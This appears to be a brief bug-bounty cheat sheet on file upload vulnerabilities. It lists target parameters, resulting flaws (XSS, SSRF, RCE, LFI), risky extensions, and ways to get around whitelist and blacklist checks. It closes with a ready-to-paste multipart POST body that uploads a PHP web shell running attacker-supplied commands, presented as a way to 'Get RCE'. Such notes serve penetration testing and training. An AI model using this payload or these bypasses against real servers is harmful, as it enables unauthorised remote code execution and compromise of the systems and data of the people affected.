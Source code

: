 # File Upload Vulnerability:

     > Parameters
          - Resume Upload
          - photo upload
          - issue file
          - any file ext e.g png, pdf
          
     > Vulnerabilities from file upload:
          - XSS
          - SSRF
          - RCE
          - LFI
     
     > Extensions we should try to upload
         - php  
         - svg
         - html
         - aspx 
         - xml
         
     > Prevention mechanisms of file upload:
        - White listing   (e.g photo upload parameter: only allowed .png, .jpg, .jpeg)
        - Black Listing   (e.g these extensions not allowed .php, .svg, , .html)
        
    > Bypasses:
        - Try alternative Extensions (.php  -> .phtml, .php1 - .php5)
        - Content-Type bypasses



### Add this in POST Request & Get RCE

```
-----------------------------------------------99999999999999999999999
Content-Disposition: form-data; name="rce.php"; filename="attacker.php"
Content-Type: application/x-php

<?php

system($_GET["cmd"]);

?>
-----------------------------------------------99999999999999999999999
```

### Burp Extension (Upload Scanner):-
https://www.youtube.com/watch?v=dc_57FaKj3E

### A CLI Tool:-
https://www.youtube.com/watch?v=RpLtycOYjfs
